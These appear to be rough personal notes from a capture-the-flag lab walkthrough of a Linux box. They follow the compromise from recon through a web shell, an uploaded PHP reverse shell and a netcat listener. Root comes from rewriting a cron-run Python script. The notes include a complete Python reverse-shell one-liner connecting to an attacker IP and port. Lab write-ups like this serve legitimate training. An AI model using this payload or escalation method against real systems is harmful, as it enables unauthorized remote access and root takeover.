

Did nmap scan now

we need a remote exploit and local exploit might help us only in privelege escalation purpose only

from this we didnnt get any though
did dirbustr
tried the source code couldnt find it
so reading his blog

it seems that he has written a shell for a web

found this too lets navigate to it

and we get this
thus got hold of user.txt now we need privelege escalation

thus we have access to script manager withiut the password

thus we dont have a tty present

thus we have access to www-data folder

thus found the uploads folder now
so went to uploads/index.html
bt it is empty
so lets uload something malicous here and get a shell
https://github.com/pentestmonkey/php-reverse-shell
went here

did this then after saving that file
lets start a netcat listener on our kali


still tty nahi hai
https://netsec.ws/?p=337
whent on this site

use any of this

python -c 'import pty; pty.spawn("/bin/bash")';
thus it worked

now tty issue goine

if u had done sudo su scriptmanager that didnt work bt could use sudo as used above

if u see scripts folder doesnt usually exist in general in linuzx machine and is the only folder owned by scriptmanager
so dig into it

test.txt overwritten almost every minute

so in py file write something to talk back to us in form of root
basically making python script into reverse shell
http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet

- import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.11",2345));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);
found this online then
nano isnt workign on attack machnie so host ur file and then trasnfer it

so basically when it runs again next minute our nc -nvlp 2345 should conncet it to us

next machine
granny and grandpa